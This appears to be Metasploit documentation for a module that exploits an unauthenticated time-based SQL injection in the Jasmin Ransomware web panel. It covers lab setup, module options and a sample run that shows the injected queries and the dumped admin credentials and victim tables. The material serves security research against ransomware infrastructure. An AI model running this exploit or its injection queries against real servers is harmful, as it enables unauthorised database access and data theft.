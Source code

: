 ## Vulnerable Application

The Jasmin Ransomware web server contains an unauthenticated SQL injection vulnerability
within the login functionality. As of April 15, 2024 this was still unpatched, so all
versions are vulnerable. The last patch was in 2021, so it will likely not ever be patched.

Retrieving the victim's data may take a long amount of time. It is much quicker to
get the logins, then just login to the site.

### Install

create a LAMP server (using php 8.2 worked for me, 7.2 did not).
Run the following commands:

```
git clone https://github.com/codesiddhant/Jasmin-Ransomware.git
cd Jasmin-Ransomware
sudo cp -r Web\ Panel/* /var/www/html/
sudo chown www-data:www-data /var/www/html/*
sudo mysql -p
```

Execute the following SQL commands:

```
CREATE DATABASE jasmin_db;
CREATE USER 'jasminadmin'@'localhost' IDENTIFIED BY '123456';
GRANT ALL PRIVILEGES ON jasmin_db.* TO 'jasminadmin'@'localhost';
Exit
```

Now setup the database:
`sudo mysql -u jasminadmin -p123456 jasmin_db < Web\ Panel/database/jasmin_db.sql`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jasmin_ransomware_sqli`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should contents from the SQL Database.

## Options

### VICTIMS

Pull data from the Victim's table. Defaults to `false`

### VICTIMLIMIT

Number of rows from the victim table to pull. Defaults to `nil` which pulls all rows.

## Scenarios

### Jasmin installed on Ubuntu 22.04

```
msf6 > use auxiliary/gather/jasmin_ransomware_sqli
msf6 auxiliary(gather/jasmin_ransomware_sqli) > set verbose true
verbose => true
msf6 auxiliary(gather/jasmin_ransomware_sqli) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/jasmin_ransomware_sqli) > set victims true
victims => true
msf6 auxiliary(gather/jasmin_ransomware_sqli) > run

[*] Dumping login table
[*] {SQLi} Executing (select group_concat(cast(concat_ws(';',ifnull(admin,''),ifnull(creds,'')) as binary)) from master)
[*] {SQLi} Time-based injection: expecting output of length 15
[+] Dumped table contents:
Logins
======

 admin     creds
 -----     -----
 siddhant  123456

[*] Dumping victim table
[*] {SQLi} Executing (select group_concat(cast(concat_ws(';',ifnull(machine_name,''),ifnull(computer_user,''),ifnull(ip,''),ifnull(systemid,''),ifnull(password,'')) as binary)) from victims)
[*] {SQLi} Time-based injection: expecting output of length 428
[+] Dumped table contents:
Victims
=======

 machine_name     computer_user  ip              systemid                  password
 ------------     -------------  --              --------                  --------
 Bollywood        Salman Khan    47.247.223.177  df545f454f5d4f5d4af5      M9M99EvNpZVOWpy9Q8sZLHEP
 DESKTOP-37Q74QH  cyberstair     47.247.223.177  96457DF79A87C7C0008A7BE7  xAS4NinH/HQKNJwsNtTWN5yD
 FiFa             Leone Messi    47.247.223.177  cfhsfkdjkfvdd454s5g4      JDNAaz6e3oyM8cN+AGFdMl/5
 Indian Cricket   Virat Kohli    47.247.223.177  SDGFs4F4S4FD4F4545fs      3tIHrYJqqTSBpw4lgMMck1GD
 White House      Donald Trump   47.247.223.177  fgighefesdgvrd5g45rd4h    RJtCd9QqiCfBaSU0zQf84dvd

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

